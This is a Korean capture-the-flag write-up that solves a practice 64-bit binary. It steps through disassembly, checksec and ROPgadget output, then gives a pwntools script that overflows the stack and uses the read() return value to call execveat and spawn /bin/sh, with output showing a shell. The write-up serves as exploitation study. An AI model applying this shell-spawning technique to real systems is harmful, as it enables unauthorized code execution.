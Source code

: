 # 상준이가 문제 줌#4

![ScreenShot](./CTF_Writeup/s0ngsaris_study/Homework/image/sc1.JPG)  

---

문제를 풀 때 당시 64bit pwnable은 아직 익숙하지 않았다.  

일단 IDA로 해당 파일을 열어보았다.

```
.text:00000000004000B0                 xor     rax, rax
.text:00000000004000B3                 xor     rbx, rbx
.text:00000000004000B6                 xor     rcx, rcx
.text:00000000004000B9                 xor     rdx, rdx
.text:00000000004000BC                 xor     rdi, rdi
.text:00000000004000BF                 xor     rsi, rsi
.text:00000000004000C2                 xor     r8, r8
.text:00000000004000C5                 xor     r9, r9
.text:00000000004000C8                 xor     r10, r10
.text:00000000004000CB                 xor     r11, r11
.text:00000000004000CE                 xor     r12, r12
.text:00000000004000D1                 xor     r13, r13
.text:00000000004000D4                 xor     r14, r14
.text:00000000004000D7                 xor     r15, r15
.text:00000000004000DA                 xor     rbp, rbp
.text:00000000004000DD                 call    sub_4000F2
.text:00000000004000E2                 mov     eax, 3Ch
.text:00000000004000E7                 xor     rdi, rdi
.text:00000000004000EA                 xor     rsi, rsi
.text:00000000004000ED                 xor     rdx, rdx
.text:00000000004000F0                 syscall
```

젠장 끝이다... 어셈으로 짜여진 파일인것 같다.

우선 xor 연산을 통해 보이는 레지스터의 값을 모두 0으로 만든다

그리고 sub_4000F2 함수를 call 한다. 저기에 뭐가 있는지 봐야겠지?

```
4000f2:       48 81 ec 28 01 00 00    sub    $0x128,%rsp
4000f9:       48 89 e6                mov    %rsp,%rsi
4000fc:       ba 48 01 00 00          mov    $0x148,%edx
400101:       0f 05                   syscall
```

#### ~FUCKING

0x128(296)byte 만큼의 공간을 할당한다 그리고 rsi 레지스터에 해당 값을 넣는다.

그리고 edx(rdx) 에 0x148을 넣는다. 그리고 syscall 을 통해 특정 함수를 호출한다.

자 이제 어떤 함수일까...

먼저 rax 가 0이므로 64bit systemcall number 0인 read 함수가 호출된다.

rdx 또한 0으로 초기화 되어 있고 rsi rdx 에 어떤 값이 들어가는 지 알고 있다.

이걸 대충 C언어로 바꾸면 다음과 같다.

```c
#include <stdio.h>

int main()
{
    read(0, buf, 148);
}
```
혹시 그럴리 없겠지만 syscall number를 모를 경우 디버깅을 통해 확인할 수 있다.

```
RAX  0x0
RBX  0x0
RCX  0x0
RDX  0x148
RDI  0x0
RSI  0x7fffffffe470 ◂— 0x0
R8   0x0
R9   0x0
R10  0x0
R11  0x0
R12  0x0
R13  0x0
R14  0x0
R15  0x0
RBP  0x0
RSP  0x7fffffffe470 ◂— 0x0
RIP  0x400101 ◂— syscall
─────────────────────────────────[ DISASM ]─────────────────────────
  0x4000f2    sub    rsp, 0x128
  0x4000f9    mov    rsi, rsp
  0x4000fc    mov    edx, 0x148
► 0x400101    syscall  <SYS_read>
       fd: 0x0
       buf: 0x7fffffffe470 ◂— 0x0
       nbytes: 0x148
```

흠 우선 풀기 전에 어떤 보호 기법이 적용되어 있는지 확인해볼 필요가 있다.

```
secretpack@ubuntu:~/Desktop$ pwn checksec attackme
[*] '/home/secretpack/Desktop/attackme'
    Arch:     amd64-64-little
    RELRO:    No RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```
NX enable 이므로 shellcode를 쓸 수가 없다.

그렇다면 다른 방법을 강구해야 한다. 검색을 하던중 [Sigreturn을 이용한 SROP](https://www.lazenca.net/plugins/servlet/mobile?contentId=16810278#content/view/16810278)와 관련된 문서를 보게 되었다. 이를 시도 했으나 64bit에서 sigreturn 함수의 systemcall number는 15 이다. 방법이 없지는 않겠지만 내가 알고있는 선에서는 이 방법을 사용해 풀 수가 없다는 판결을 내렸다.

그리고 상준이가 문제 해결을 위한 힌트를 줬다.

```
[상준] [오후 9:58] 자
[상준] [오후 9:58] 힌트준다
[상준] [오후 9:58] 64bit에서는
[상준] [오후 9:58] execveat이라는
[상준] [오후 9:58] 엄청난 시스콜이잇다
[상준] [오후 9:59] 한번 검색해서봐라
```

##### 검색해보자!

```c
#include <unistd.h>

int execveat(int dirfd, const char *pathname,
             char *const argv[], char *const envp[], int flags);
```
인자가 엄청 많은데...

manpage 를 잘 읽어보면 이 함수를 사용하여 /bin/sh를 실행할 수 있다.

```c
execveat(0,"/bin/sh",NULL,NULL,0);
```

요롷게 들어가면 쉘이 실행된다고 한다.

혹시나!! ROPGadget을 이용해서 pop rax 가젯이 있는지 먼저 찾아봤다.

```
secretpack@ubuntu:~/Desktop$ ROPgadget --binary attackme
Gadgets information
============================================================
0x0000000000400108 : add byte ptr [rax], al ; ret
0x0000000000400104 : add esp, 0x128 ; ret
0x0000000000400103 : add rsp, 0x128 ; ret
0x000000000040010a : ret
0x0000000000400106 : sub byte ptr [rcx], al ; add byte ptr [rax], al ; ret
0x0000000000400101 : syscall ; add rsp, 0x128 ; ret
```

역시나 없다..

read 함수의 manpage를 읽어보면 read함수는 입력받은 문자열의 길이를 return 한다고 나와있다. 함수의 리턴값은 rax 레지스터에 저장된다. 어??? 이것을 이용하여 공격을 하면 될것 같다.

execveat 함수에 들어가는 rsi는 파일 이름이고 read 함수의 rsi는 입력값이다.
그렇다면 익스플로잇 코드를 작성할때 "/bin/sh\x00"를 앞에 쓰고 그 뒤에 버퍼를 채워주면
실질적인 문자열은 /bin/sh이므로 execveat() 함수의 두번째 인자에 저 문자열을 전달 할 수 있다.

##### 2018.12.19
최종적으로 문제풀이를 완료 했다.
익스플로잇 코드를 작성하였으나 뜻대로 들어가지 않았고 본의 아니게 삽질 했다.
rdx 레지스터가 이상한 값으로 세팅되어 있어서 그랬다...

xor rdx, rdx 를 가져와 문제 풀이에 사용하였고 성공했다.

```python
from pwn import*

p = remote("./attackme")

syscall = 0x400101
zero_rdx = 0x4000ed

payload = "/bin/sh\x00"
# payload += "A" * (0x128 - 8)
payload += "A" * (0x148 - (8 * 4) - 8) # 실제로 ret 부분 앞까지 계산
payload += p64(zero_rdx)
payload += p64(syscall)
payload += "A" * (0x142 - len(payload) - 1) # execveat

p.sendline(payload)
p.interactive()
```
```
secretpack@ubuntu:~/Desktop$ python test.py
[+] Starting local process './attackme': pid 59820
[*] Switching to interactive mode
$ id
uid=1000(secretpack) gid=1000(secretpack) groups=1000(secretpack),4(adm)
$  

```
힘들었다... 당분간은 디버깅 연습을 많이 해야 겠다.
